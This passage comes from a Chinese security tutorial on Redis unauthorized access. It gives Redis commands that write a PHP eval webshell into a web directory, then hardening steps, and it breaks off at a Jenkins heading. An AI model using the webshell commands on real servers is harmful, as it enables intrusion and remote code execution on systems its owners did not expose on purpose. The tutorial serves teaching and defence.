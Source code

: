 在以下条件下，可以利用此方法  

Redis服务使用 root 账号启动  
服务器开放了 SSH 服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

3、获取 web 服务的 webshell  

当 redis 权限不高时，并且服务器开着 web 服务，在 redis 有 web 目录写权限时，可以尝试往 web 路径写 webshell。  

执行以下命令  
```
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php @eval($_POST['caidao']);?>"
save
```
即可将 shell 写入 web 目录  
![](../pictures/notauthority2.png)   


### 2.3 漏洞加固

可以配置 redis.conf 这个文件，在安装目录下  

1、默认只对本地开放  
`bind 127.0.0.1`  

2、添加登陆密码  
`requirepass www.secpulse.com`  

3、在需要对外开放的时候修改默认端口  
`port 2333`  

4、最后还可以配合iptables限制开放  

## 0x03 Jenkins 未授权访问
